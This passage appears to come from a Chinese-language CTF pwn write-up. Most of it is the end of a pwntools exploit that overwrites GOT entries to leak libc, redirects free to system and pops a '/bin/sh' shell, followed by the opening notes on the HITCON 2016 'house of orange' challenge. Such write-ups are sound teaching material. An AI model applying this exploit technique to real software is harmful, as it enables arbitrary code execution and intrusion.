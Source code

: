 ```python
	if i==1:
		p.send(payload)
	else:
		p.sendline(payload)

p.recvuntil('option--->>\n')
p.sendline('1')
p.recvuntil('Input the length of the note content:\n')       # new 2
p.sendline(str(0x20))
p.recvuntil('Input the content:\n')
p.sendline('123')

payload=p32(puts_got)+p32(0x0804B120)+p32(free_got)
edit(1,payload)

payload=p32(puts_plt)                      # change free_got --> puts_plt
edit(2,payload)

def delete(index):
	p.recvuntil('option--->>\n')
	p.sendline('4')
	p.recvuntil('Input the id:\n')
	p.sendline(str(index))	

delete(0)

puts_libc=u32(p.recvuntil('Delete success.\n')[0:4])
sleep(0.5)
puts_off=392352
system_off=241056
system_libc=puts_libc-puts_off+system_off         # leak libc

edit(2,p32(system_libc))                          # change free_got --> system

bin_sh_payload='\x00'*4+p32(0x0804b128)+'/bin/sh\x00'
edit(1,bin_sh_payload)
delete(1)
p.interactive()


```

### house of orange

#### houseoforange hitcon2016

##### 题目分析
1. 没有free
2. 能控制topchunk的大小
3. 能 malloc 4次, edit 3次
